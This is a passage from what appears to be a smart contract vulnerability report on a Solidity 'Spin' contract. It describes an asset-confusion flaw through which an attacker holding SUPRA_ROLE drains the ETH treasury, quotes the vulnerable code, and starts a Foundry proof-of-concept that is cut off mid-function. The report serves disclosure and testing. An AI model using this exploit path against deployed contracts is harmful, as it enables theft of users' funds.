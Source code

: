 ### Attack Vector
1. **Oracle Control**: Attacker gains SUPRA_ROLE (via oracle manipulation vulnerability)
2. **ETH Funding**: Contract is funded with native ETH but no PLUME ERC-20 tokens
3. **Random Number Generation (RNG) Manipulation**: Attacker crafts RNG values to trigger "Plume Token" reward category
4. **Asset Confusion**: `_safeTransferPlume()` sends ETH while recording PLUME tokens
5. **Repeated Exploitation**: Attacker can repeat until ETH treasury is drained

### Vulnerable Code Path
```solidity
function handleRandomness(uint256 nonce, uint256[] memory rngList) external onlyRole(SUPRA_ROLE) nonReentrant {
    // ... user validation and cleanup ...
    
    uint256 randomness = rngList[0];
    (string memory rewardCategory, uint256 rewardAmount) = determineReward(randomness, currentSpinStreak);
    
    UserData storage userDataStorage = userData[user];
    
    // ❌ CRITICAL: Accounting increment happens here for "Plume Token" rewards
    if (keccak256(bytes(rewardCategory)) == keccak256("Plume Token")) {
        userDataStorage.plumeTokens += rewardAmount; // Records PLUME tokens
    }
    
    // ❌ But transfer sends native ETH instead of PLUME ERC-20 tokens
    if (keccak256(bytes(rewardCategory)) == keccak256("Plume Token")) {
        _safeTransferPlume(user, rewardAmount * 1 ether); // Sends ETH!
    }
}
```

## Proof of Concept

### Prerequisites
- Contract funded with ETH but no PLUME ERC-20 tokens
- Attacker has SUPRA_ROLE (via oracle manipulation)
- Tested on Solidity 0.8.25

The PoC demonstrates ETH drainage through asset-type confusion:

```solidity
function testPoCCriticalSpinWrongAsset() public {
    // 1. Setup: Contract funded with 50 ETH, no PLUME tokens
    vm.deal(treasury, 50 ether);
    vm.prank(treasury);
    (bool ok, ) = address(spin).call{value: 50 ether}("");
    require(ok, "fund failed");
    
    // 2. Attacker has SUPRA_ROLE (via oracle manipulation vulnerability)
    spin = new Spin();
    spin.initialize(attacker /*supraRouter*/, address(dt));
    
    // 3. Setup campaign and whitelist
    spin.setCampaignStartDate(block.timestamp);
    spin.setEnableSpin(true);
    spin.whitelist(attacker);
    
    // 4. Mock VRF oracle response
    vm.mockCall(
        attacker,
        abi.encodeWithSignature("generateRequest(string,uint8,uint256,uint256,address)"),
        abi.encode(uint256(123))
```